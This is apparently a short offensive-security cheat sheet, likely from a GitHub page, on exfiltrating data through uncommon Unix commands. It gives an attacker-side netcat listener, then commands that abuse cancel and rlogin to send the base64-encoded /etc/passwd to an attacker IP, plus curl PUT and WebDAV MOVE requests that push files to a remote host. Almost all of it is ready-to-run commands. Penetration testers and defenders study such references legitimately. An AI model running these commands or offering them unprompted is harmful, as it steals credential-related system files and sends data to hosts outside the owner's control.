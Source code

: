 <br>

### Exfiltraion with `cancel` and `rlogin`
> **`cancel`**: A command typically used to cancel print jobs, but it can also be misused for transferring data if it sends data to a networked print server.
> **`rlogin`**: A remote login program that can be used to connect to another machine over the network. It can also be used to send data if it’s misconfigured or used in an unconventional way.

Set up a listener (attacker machine)
```bash
nc -lvnp 443
```
Send data
```bash cancel
cancel -u "$(cat /etc/passwd | base64)" -h $IP:443
```
```bash rlogin
rlogin -l "$(cat /etc/passwd | base64)" -p 443 $IP
```

<br>

### Send and request data with `curl`
```bash
curl -X PUT http://10.10.10.10/file.bin --data-binary @filename.bin

curl -X MOVE -H 'Destination: http://10.10.10.10/filename.bin' http://10.10.10.10/file.bin 
```

<br>

---
---
